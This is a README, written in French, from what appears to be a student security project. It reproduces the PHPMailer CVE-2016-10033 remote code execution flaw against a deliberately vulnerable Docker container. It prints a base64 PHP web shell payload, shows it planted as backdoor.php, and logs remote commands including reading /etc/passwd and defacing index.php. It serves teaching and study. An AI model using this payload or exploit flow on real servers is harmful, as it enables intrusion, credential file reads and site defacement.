


# Ensimag-ssi-2019-2020
created by Majd, El Houti, Maaraki
## Getting Started
```
$ git clone "https://github.com/elhouti/ensimag-ssi-2019-20.git" && \
cd ensimag-ssi-2019-20
```

## Reproduire la vulnérabilité 

Étape  1: Tout d'abord on va utiliser une image docker qui permet de lancer une application web contenant un formulaire d'envoie de mails avec la librairie PHPMailer avec une version < 5.2.18 (voir index.php) sur un container.
Si jamais vous ne disposez pas de docker sur votre machine (le cas des machines de l'école), [Install Docker on Linux](https://runnable.com/docker/install-docker-on-linux).
```
$ docker run -d -p 8080:80 vulnerables/cve-2016-10033
```
Lorsque l'image soit lancé sur le conteneur docker, visiter localhost:8080



Étape 2: Lancement du script "exploit.sh", ce dernier injecte le malicious code ``` <?php echo "|".base64_encode(system(base64_decode($_GET["cmd"])))."|"; ?>``` dans le serveur distant (dans notre cas ça sera "localhost:8080", puisque l'application est exécuté sur un container docker locale) sous la forme d'un fichier php que nous avons l'appelé "backdoor.php" en exploitant La faille de PHPMailer qui ne vérifier pas les données envoyées par l'utilisateur à travers le formulaire avant l'exécution, et par conséquent il va nous donner la possibilité d'éxécuter des commandes à distance à travers ce script injecté (Remot shell).

Remarque: au lieu de proceder manuellement avec la saisie des données directement sur le formulaire, on va utiliser deux scripts qui vont faciliter la tache.
```
$ bash exploit.sh localhost:8080
```
output: (ls, ls vulnerable, pwd, cat /etc/passwd sont exécuté sur le seveur distant)
```
[+] exemple d éxploitation CVE-2016-10033
[+] Lancement de l éxploitation localhost:8080
[+] Cible exploitée, accès au shell sur http://localhost:8080/backdoor.php
[+] Vérification si le fichier backdoor a été creé sur le host ciblé
[+] Backdoor.php trouvé dans le host ciblé
[+] Vous avez la main pour saisir Les commandes à exécuter sur le serveur distant ...
[+] (tappez exit pour sortir du shell)
www-data
RemoteShell> ls
vulnerable
RemoteShell> ls vulnerable
travis.phpunit.xml.dist
RemoteShell> pwd
/www
RemoteShell> cat /etc/passwd
smmsp:x:105:108:Mail
RemoteShell> exit
[+] Sortie
```

Étape3: C'est intéressant, mais pour tester quelque chose de plus concrète, lancant le script "second_use_case.sh" qui exécute une commande sur le shell distant qui permet d'écraser le contenu du ficher "index.php" par une page noire contant le mot "defaced".
```
$ bash concret_example.sh localhost:8080
```
output 
```
[+] exemple d éxploitation CVE-2016-10033
[+] Lancement de l éxploitation localhost:8080
[+] Cible exploitée, accès au shell sur http://localhost:8080/backdoor.php
[+] Vérification si le fichier backdoor a été creé sur le host ciblé
[+] Backdoor.php trouvé dans le host ciblé
[+] Términé avec succès ...
```

résultat



